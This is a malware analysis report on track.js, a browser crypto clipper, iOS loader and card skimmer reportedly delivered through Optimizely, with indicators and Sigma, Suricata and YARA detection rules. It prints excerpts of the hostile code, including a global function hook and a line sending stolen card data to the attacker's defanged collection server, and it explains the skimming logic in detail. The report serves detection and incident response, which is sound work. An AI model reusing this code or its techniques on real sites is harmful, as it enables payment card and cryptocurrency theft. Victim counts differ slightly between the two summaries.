

## Incident Summary
OPTIMJACK is a supply-chain cyberattack from November 16, 2026, in which attackers exploited a vulnerability in Optimizely's Web Experimentation platform to inject malicious JavaScript into customer projects. The injected code was served through Optimizely's legitimate content delivery network (CDN) to website visitors across at least 178 organizations

## Summary

track.js is a three-part browser stealer. It swaps crypto wallet addresses, loads a second stage on older iOS devices and skims payment cards. It was reported as served through Optimizely to about 190 sites, including CNN, the BBC and Zoom. The sample itself contains no Optimizely strings, so that link rests on outside reporting.

1. **Crypto clipper.** It replaces wallet addresses for 9 chains with attacker wallets. It rewrites page text, form fields, links, the clipboard, network requests and every `Function.prototype.call/apply` argument. After a swap it sends the page URL, `document.cookie` and a screenshot to `1688360[.]cc/hit.php`.
2. **iOS loader.** On iPhone and iPad it loads `boot.js` from two `.icu` domains. On iOS 18.6 or earlier it also injects a hidden iframe, which suggests a WebKit exploit or a mobile scam page. This is unconfirmed because the second stage was not retrieved.
3. **Card skimmer.** It reads POST bodies and form submits and sends a full card number, expiry date and CVV to `1688360[.]cc/card.php`.

**Anyone who copied a crypto address or entered a card on an affected page during the exposure window should be treated as compromised.**

## At a glance



The clipper and skimmer send their data to the same server, so blocking `1688360[.]cc` stops both. The iOS loader uses separate hosts and needs its own block.

## Sample and method

| Field | Value |
| --- | --- |
| File | track.js |
| SHA-256 | `f7b84b9a94f749f8ced3f0112d0a66894e8bbc3b4aa5592021d1b8976a9bad40` |
| Size | 29,882 bytes, 715 lines, CRLF line endings |
| Obfuscation | None; minified short names only |
| Tooling | REA static JavaScript analysis (AST and data flow), then a manual read of every line on REMnux |

REA parsed 6,295 AST nodes with no parse failures. Its automatic endpoint extraction found only `card.php`. `hit.php` and the URLs set through `script.src` or iframes come from the manual read. This is a useful reminder that automated extraction is a starting point, not a substitute for reading the code. Line numbers below refer to track.js.

## Module 1: crypto clipper

The clipper replaces any valid wallet address it finds with the attacker's wallet for the same chain. The global `window._k7` stops it from running twice.

### Attacker wallets

| Chain | Attacker address | Replaces |
| --- | --- | --- |
| ETH / EVM | `0xC4026b06D82b0F0B363eda0642D61CfbDc17884e` | Any `0x` + 40 hex |
| TRON | `THvs6p56XkUiMkJeSc51cAP64u2RsTYqxa` | Base58Check, version 65 |
| Bitcoin | `19g9rZcPeiz8rUvyWpTRyXXhPnjsWrc3kW` | P2PKH, P2SH and `bc1` bech32/bech32m |
| TON (user-friendly) | `UQAgM1VqSZQiJLSG5w-ovurq5CZdxLEK3_7CMmwALTA5e09p` | 48-char base64url with a valid CRC16 |
| TON (raw) | `0:2033556a49942224b486e70fa8beeaeae4265dc4b10adffec2326c002d30397b` | `0:` or `-1:` + 64 hex |
| Solana | `FVtL8NMYS9PA1v3HE67XUGCtGA9JaZUvqav2fU2LrV5n` | 44-char Base58 that decodes to 32 bytes |
| Litecoin | `ltc1q3wp7g6ds0ggg6fl6kncpa4sepn0q3qfacgred5` | `ltc1` bech32 and version-48 Base58 |
| Bitcoin Cash | `qzkaaf8n6grmpr0d9lx8xutn3r9lk722f566hhpe58` | CashAddr `q`/`p`, with or without `bitcoincash:` |
| Dogecoin | `DBEGrxRF7KMSuhTS4c1MFviStU6efdMnu5` | Base58Check, version 30 |

A legacy or bech32 Bitcoin address is replaced with the attacker's legacy `19g9…` address.

### Address validation

The script verifies checksums before swapping, so it rarely breaks text that isn't an address. That care is what lets it run on large news sites without visibly corrupting pages. It carries its own implementations of:

- SHA-256 (`SH`) and double-SHA-256 Base58Check (`CS`, `D58`) for BTC, TRON, LTC and DOGE
- bech32/bech32m polymod (`BP`) for `bc1` and `ltc1`
- CashAddr polymod (`BA`) for BCH
- base64url decoding plus CRC16-CCITT with a tag-byte check (`B64`, `CR`) for TON

`V()` routes each candidate to the matching attacker wallet and caches up to 800 results. Solana is replaced only when the text near the address mentions "sol" or "solana", or the URL parameter name suggests a wallet field. A keyword list (`KW`: address, wallet, deposit, pay, usdt, qr and others) controls which swaps are logged for the attacker. For URLs it also decides whether a swap happens at all.

### Hooks

| Surface | Mechanism | Lines |
| --- | --- | --- |
| Visible page text | TreeWalker every 50 ms and on MutationObserver; also shadow DOM and same-origin iframes. Skips `script`, `style`, `code`, `pre`. | 415–432, 465–506 |
| Form fields | Native `value` setter, then `input` and `change` events, plus AngularJS `ngModel.$setViewValue`. Runs on click, submit, Enter and blur. | 384–405, 481–491 |
| Attributes | `href`, `src`, `style`, `on*` handlers, `data-clipboard-text`, `data-copy`, `data-address` (QR images, payment URIs) | 444–463 |
| Clipboard | `copy` event, `navigator.clipboard.writeText` and `readText` | 343–352, 508–523 |
| Share sheet | `navigator.share` text and url | 353–359 |
| Navigation | `window.open`, `location.assign/replace`, `history.pushState/replaceState` | 314–319 |
| Network | `fetch` URL and body, `XMLHttpRequest.open` and `send` | 321–339 |
| All JavaScript calls | `Function.prototype.call` and `.apply` replaced; every string argument of 26–3,000 chars goes through the swapper | 301–313 |

The most aggressive hook is the global one on `Function.prototype.call` and `.apply` (lines 304–313, excerpt):

```js
Function.prototype.call = function () {
  var a = [], i;
  for (i = 0; i < arguments.length; i++) a[i] = arguments[i];
  try { XARGS(a, 1); } catch (e) {}          // rewrite every string argument
  return Reflect.apply(this, a[0], a.slice(1));
};
```

It is also the strongest detection point. After the hook, `Function.prototype.call.toString()` no longer returns native code.

### Reporting to the attacker

After the first swap in a visible element, `SHOT()` waits 1.2 s. It then loads `hxxps://1688360[.]cc/html2canvas.min.js` and renders the viewport as a JPEG (scale 0.6, at most 900 px wide, quality 0.55). `POST()` sends a `text/plain` JSON body to `hxxps://1688360[.]cc/hit.php`:

| Field | Content |
| --- | --- |
| `u` | Page URL, up to 500 chars |
| `c` | `document.cookie`, up to 8,000 chars |
| `i` | Base64 screenshot |
| `m` | Up to 20 original victim addresses that were replaced |

Because it sends `document.cookie`, any session cookie not marked HttpOnly on an affected site was also stolen. If the screenshot fails, it still sends the report without one.

## Module 2: iOS loader

On Apple mobile devices, the loader pulls in two external scripts. On iOS 18.6 or earlier it also adds a hidden iframe.

- **Targeting:** `iPhone|iPad|iPod` in the user agent, or `Macintosh` with `maxTouchPoints > 1` (iPadOS in desktop mode). The iOS version is parsed from `OS (\d+)_(\d+)`.
- **Stage 2, all iOS:** two `<script>` tags pointing to `hxxps://5vobauua3ojpklx[.]icu/boot.js` and `hxxps://eil786npto9u5bq[.]icu/boot.js`. Each has `data-landing`, `data-channel-code="02111110"`, `data-chain-url` set to its own domain and `data-cfasync="false"`. That last attribute stops Cloudflare Rocket Loader from deferring the script.
- **iOS 18.6 or earlier:** an iframe of 0×0 px at `left:-1000px`, loading `hxxps://eil786npto9u5bq[.]icu/JIUJIU888/weifile.html`.

The version gate points to a WebKit exploit chain or an iOS-specific scam page. `data-channel-code` looks like an affiliate or campaign ID, which fits a traffic-distribution kit. Neither stage 2 file was retrieved, so both points are inferences.

## Module 3: card skimmer

The skimmer sends a full card number, expiry date and CVV to `hxxps://1688360[.]cc/card.php`. The global `window._cc` stops it from running twice.

### Capture points

| Hook | What it reads |
| --- | --- |
| `window.fetch` | POST bodies: JSON, `FormData`, `URLSearchParams`, URL-encoded strings, or `Request` objects read through `clone().text()` |
| `XMLHttpRequest.open` / `send` | Saves the method in `this.__m`, then reads POST bodies |
| `submit` event (capture phase) | Every `input` and `select` by name, id or autocomplete. `cc-number`, `cc-exp` and `cc-csc` are mapped to card, expiry and CVV. |

Because the skimmer wraps `fetch` after the clipper has already hooked it, both modules see each request.

### Card validation (`FIND`, `PAN`, `EXP`)

1. Nested objects are flattened. Field names containing `card`, `pan`, `ccnum` or `credit` are treated as the card number.
2. The number must be 15–19 digits, pass the Luhn check and match a brand: Visa, Amex, Mastercard (including 2-series), Discover, JCB, UnionPay, Troy, Mir, Maestro or Diners.
3. A 16-digit value starting with `20` is ignored unless it matches a brand. This filters out timestamps.
4. Expiry is taken from fields named `exp` or `valid`, in MM/YY, MM-YYYY or similar formats. It must fall between this year and 15 years ahead.
5. CVV is taken from fields named `cvv`, `cvc`, `csc` or `security` and must be 3–4 digits.
6. A number in a field without a card-like name counts only if both an expiry and a CVV were also found.

### Exfiltration

It sends only when all three parts are present. Each card is recorded in `sessionStorage` as `cc_<pan><exp><cvv>`, so it is sent once per tab. It uses `navigator.sendBeacon`, falling back to `fetch` POST, with URL-encoded fields `n` (card number), `e` (expiry), `c` (CVV) and `u` (page URL). Excerpt, URL defanged:

```js
var key = 'cc_' + pan + e + c;
try { if (sessionStorage.getItem(key)) return; sessionStorage.setItem(key, '1'); } catch (x) {}
var b = new URLSearchParams();
b.set('n', pan); b.set('e', e || ''); b.set('c', c || ''); b.set('u', location.href.slice(0, 500));
if (navigator.sendBeacon) { navigator.sendBeacon('hxxps://1688360[.]cc/card.php', b); return; }
```

## Indicators of compromise

The 9 attacker wallets are listed in Module 1. The network and host indicators are below.

| Type | Indicator | Role |
| --- | --- | --- |
| SHA-256 | `f7b84b9a94f749f8ced3f0112d0a66894e8bbc3b4aa5592021d1b8976a9bad40` | track.js sample |
| Domain | `1688360[.]cc` | Collection server for both modules |
| URL | `hxxps://1688360[.]cc/hit.php` | Clipper exfiltration: URL, cookies, screenshot, swapped addresses |
| URL | `hxxps://1688360[.]cc/card.php` | Card exfiltration |
| URL | `hxxps://1688360[.]cc/html2canvas.min.js` | Screenshot library |
| Domain | `5vobauua3ojpklx[.]icu` | iOS stage 2 (`/boot.js`) |
| Domain | `eil786npto9u5bq[.]icu` | iOS stage 2 (`/boot.js`) and hidden iframe |
| URL | `hxxps://eil786npto9u5bq[.]icu/JIUJIU888/weifile.html` | Hidden iframe, iOS 18.6 or earlier |
| String | `data-channel-code="02111110"` | Campaign or affiliate ID on stage 2 tags |
| Page global | `window._k7`, `_qxc`, `_shot`, `_X`, `_F`, `_cc`, `TASK` | Run-once guards and exported helpers |
| Session storage | Keys matching `cc_<digits><MM/YY><cvv>` | Card de-duplication |
| DOM | Element property `__u` | Attribute rewrite cache |
| Runtime | `Function.prototype.call` / `.apply` not native | Global argument hook |

Quick check in a browser console: `/native code/.test(Function.prototype.call)` returns `false` on an infected page.

## Detection

The appendix has the full rules. In summary:

| Rule set | Format | What it covers | Validated |
| --- | --- | --- | --- |
| Track.js C2 communication | Sigma (proxy) | Any request to the 3 domains or `/JIUJIU888/weifile.html`. Level high. | `sigma check` |
| Track.js exfiltration POST | Sigma (proxy) | POST to `/card.php` or `/hit.php` on the collection server. Level critical. | `sigma check` |
| Track.js C2 domain lookup | Sigma (DNS) | Lookups of the 3 domains | `sigma check` |
| track_js.rules | Suricata 7 | 13 rules: DNS, TLS SNI, HTTP exfiltration paths, stage 2 fetches, malicious script body in responses | Not tested with `suricata -T` |
| TrackJS_Clipper_Skimmer_Loader | YARA | C2 strings, 2 or more wallets, or 4 or more code markers | Matches the sample |

The HTTP and body rules only fire on cleartext or TLS-inspected traffic. The DNS and SNI rules work without TLS inspection. SIDs are in a local range (9100001–9100013); change them to fit your own allocation.

## Response

First, block the 3 domains. Then use proxy and DNS logs to find users who loaded the script and act on the three data types it stole.

- **Block** `1688360[.]cc`, `5vobauua3ojpklx[.]icu` and `eil786npto9u5bq[.]icu` at DNS, proxy and egress.
- **Hunt:** deploy the Sigma and Suricata rules, then search historic proxy and DNS logs from the start of the exposure window.
- **Site owners:** remove or pin the affected third-party tag. Add a Content-Security-Policy `connect-src` and `script-src` allowlist, plus Subresource Integrity where the vendor supports it.
- **Cards:** treat any card entered on an affected checkout page as compromised and notify the payment processor or acquirer for reissue.
- **Crypto:** check recent transactions against the 9 attacker wallets, and submit the wallets to exchanges and chain-analytics providers for flagging.
- **Sessions:** rotate session cookies on affected sites that are not marked HttpOnly, and set HttpOnly on session cookies going forward.
- **iOS:** update devices that loaded the page on iOS 18.6 or earlier, and treat them as possibly exploited until stage 2 is analysed.

## Limitations and open questions

- Static analysis only. No browser run was performed, so hook behaviour is inferred from code, not observed.
- Stage 2 is missing. Neither `boot.js` nor `weifile.html` was retrieved, so the iOS payload is unknown.
- The Optimizely delivery path isn't visible in the sample. Which project, snippet or account was compromised needs vendor or site-side logs.
- REA's static extractor found 1 of the script's 7 network endpoints automatically. The rest come from a manual read. It also left 1,276 data-flow relationships unresolved, which is expected for code that hooks built-in browser functions.
- Open question: what was the exposure window? It sets the log search range and the card-reissue scope.
- Open question: do the attacker wallets have on-chain inflows? That would measure clipper losses.

---

## Appendix: detection rules

These use live indicator strings so that they match. Don't paste the domains into a browser.

### Sigma: C2 communication (proxy)

```yaml
title: Track.js Clipper/Skimmer C2 Communication (Proxy)
id: 8f6a1c52-3e0b-4d7a-9a2e-6b1f0c4d7e11
status: experimental
description: >
  Detects browser traffic to infrastructure used by track.js, a crypto-address clipper,
  card skimmer and iOS loader reportedly served via a compromised third-party script.
  Sample SHA-256 f7b84b9a94f749f8ced3f0112d0a66894e8bbc3b4aa5592021d1b8976a9bad40.
date: 2026-11-17
tags:
  - attack.collection
  - attack.t1185
  - attack.credential-access
  - attack.t1056.003
  - attack.exfiltration
  - attack.t1041
  - attack.impact
  - attack.t1565.002
logsource:
  category: proxy
detection:
  selection_host:
    cs-host|endswith:
      - '1688360.cc'
      - '5vobauua3ojpklx.icu'
      - 'eil786npto9u5bq.icu'
  selection_uri:
    c-uri|contains: '/JIUJIU888/weifile.html'
  condition: 1 of selection_*
falsepositives:
  - None expected
level: high
```

### Sigma: exfiltration POST (proxy)

```yaml
title: Track.js Card or Cookie Exfiltration POST (Proxy)
id: 2c9d4b71-5a8e-4f30-b1c6-9e7a3d2f8a40
status: experimental
description: >
  Detects POST requests carrying stolen card data (/card.php) or cookies, screenshots and
  swapped wallet addresses (/hit.php) to the track.js collection server. A hit means data
  has already left the browser.
date: 2026-11-17
tags:
  - attack.exfiltration
  - attack.t1041
  - attack.credential-access
  - attack.t1539
logsource:
  category: proxy
detection:
  selection:
    cs-method: 'POST'
    cs-host|endswith: '1688360.cc'
    c-uri|startswith:
      - '/card.php'
      - '/hit.php'
  condition: selection
falsepositives:
  - None expected
level: critical
```

### Sigma: C2 domain lookup (DNS)

```yaml
title: Track.js Clipper/Skimmer C2 Domain Lookup (DNS)
id: 5e3b8a90-7c14-4e62-8d0f-1a2b3c4d5e6f
status: experimental
description: DNS resolution of domains used by the track.js clipper, card skimmer and iOS loader.
date: 2026-11-17
tags:
  - attack.command-and-control
  - attack.t1071.001
logsource:
  category: dns
detection:
  selection:
    query|endswith:
      - '1688360.cc'
      - '5vobauua3ojpklx.icu'
      - 'eil786npto9u5bq.icu'
  condition: selection
falsepositives:
  - None expected
level: high
```

### Suricata 7

```
# DNS
alert dns $HOME_NET any -> any any (msg:"TRACKJS Skimmer C2 DNS lookup 1688360.cc"; dns.query; dotprefix; content:".1688360.cc"; nocase; endswith; classtype:trojan-activity; sid:9100001; rev:1;)
alert dns $HOME_NET any -> any any (msg:"TRACKJS iOS loader DNS lookup 5vobauua3ojpklx.icu"; dns.query; dotprefix; content:".5vobauua3ojpklx.icu"; nocase; endswith; classtype:trojan-activity; sid:9100002; rev:1;)
alert dns $HOME_NET any -> any any (msg:"TRACKJS iOS loader DNS lookup eil786npto9u5bq.icu"; dns.query; dotprefix; content:".eil786npto9u5bq.icu"; nocase; endswith; classtype:trojan-activity; sid:9100003; rev:1;)

# TLS SNI
alert tls $HOME_NET any -> any any (msg:"TRACKJS Skimmer C2 TLS SNI 1688360.cc"; flow:to_server,established; tls.sni; dotprefix; content:".1688360.cc"; nocase; endswith; classtype:trojan-activity; sid:9100004; rev:1;)
alert tls $HOME_NET any -> any any (msg:"TRACKJS iOS loader TLS SNI 5vobauua3ojpklx.icu"; flow:to_server,established; tls.sni; dotprefix; content:".5vobauua3ojpklx.icu"; nocase; endswith; classtype:trojan-activity; sid:9100005; rev:1;)
alert tls $HOME_NET any -> any any (msg:"TRACKJS iOS loader TLS SNI eil786npto9u5bq.icu"; flow:to_server,established; tls.sni; dotprefix; content:".eil786npto9u5bq.icu"; nocase; endswith; classtype:trojan-activity; sid:9100006; rev:1;)

# HTTP (cleartext or TLS-inspected)
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"TRACKJS Card exfil POST /card.php"; flow:to_server,established; http.method; content:"POST"; http.host; content:"1688360.cc"; endswith; http.uri; content:"/card.php"; startswith; classtype:credential-theft; sid:9100007; rev:1;)
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"TRACKJS Clipper exfil POST /hit.php (cookies+screenshot)"; flow:to_server,established; http.method; content:"POST"; http.host; content:"1688360.cc"; endswith; http.uri; content:"/hit.php"; startswith; classtype:credential-theft; sid:9100008; rev:1;)
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"TRACKJS html2canvas fetched from skimmer C2"; flow:to_server,established; http.host; content:"1688360.cc"; endswith; http.uri; content:"/html2canvas.min.js"; classtype:trojan-activity; sid:9100009; rev:1;)
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"TRACKJS iOS stage-2 boot.js"; flow:to_server,established; http.host; pcre:"/(?:5vobauua3ojpklx|eil786npto9u5bq)\.icu$/i"; http.uri; content:"/boot.js"; classtype:trojan-activity; sid:9100010; rev:1;)
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"TRACKJS iOS <=18.6 hidden iframe weifile.html"; flow:to_server,established; http.uri; content:"/JIUJIU888/weifile.html"; nocase; classtype:trojan-activity; sid:9100011; rev:1;)

# Script body served to clients (cleartext or TLS-inspected)
alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"TRACKJS Malicious script body served (clipper/skimmer)"; flow:to_client,established; file_data; content:"1688360.cc/"; content:"W._k7"; classtype:trojan-activity; sid:9100012; rev:1;)
alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"TRACKJS Attacker ETH wallet in served content"; flow:to_client,established; file_data; content:"0xC4026b06D82b0F0B363eda0642D61CfbDc17884e"; nocase; classtype:trojan-activity; sid:9100013; rev:1;)
```

### YARA

```yara
rule TrackJS_Clipper_Skimmer_Loader
{
    meta:
        description = "track.js crypto clipper + card skimmer + iOS loader (web supply-chain)"
        date = "2026-11-17"
        hash = "f7b84b9a94f749f8ced3f0112d0a66894e8bbc3b4aa5592021d1b8976a9bad40"
    strings:
        $c2_1 = "1688360.cc" ascii
        $c2_2 = "5vobauua3ojpklx.icu" ascii
        $c2_3 = "eil786npto9u5bq.icu" ascii
        $c2_4 = "JIUJIU888/weifile.html" ascii
        $w_eth = "0xC4026b06D82b0F0B363eda0642D61CfbDc17884e" ascii nocase
        $w_trx = "THvs6p56XkUiMkJeSc51cAP64u2RsTYqxa" ascii
        $w_btc = "19g9rZcPeiz8rUvyWpTRyXXhPnjsWrc3kW" ascii
        $w_ton = "UQAgM1VqSZQiJLSG5w-ovurq5CZdxLEK3_7CMmwALTA5e09p" ascii
        $w_sol = "FVtL8NMYS9PA1v3HE67XUGCtGA9JaZUvqav2fU2LrV5n" ascii
        $w_ltc = "ltc1q3wp7g6ds0ggg6fl6kncpa4sepn0q3qfacgred5" ascii
        $w_bch = "qzkaaf8n6grmpr0d9lx8xutn3r9lk722f566hhpe58" ascii
        $w_doge = "DBEGrxRF7KMSuhTS4c1MFviStU6efdMnu5" ascii
        $m_guard1 = "W._k7" ascii
        $m_guard2 = "W._qxc" ascii
        $m_guard3 = "W._cc" ascii
        $m_hook = "Function.prototype.call = function" ascii
        $m_cash = "0x98f2bc8e61n" ascii
        $m_cc = "'cc_' + pan" ascii
        $m_chan = "data-channel-code" ascii
    condition:
        filesize < 2MB and
        ( any of ($c2_*) or 2 of ($w_*) or 4 of ($m_*) )
}
```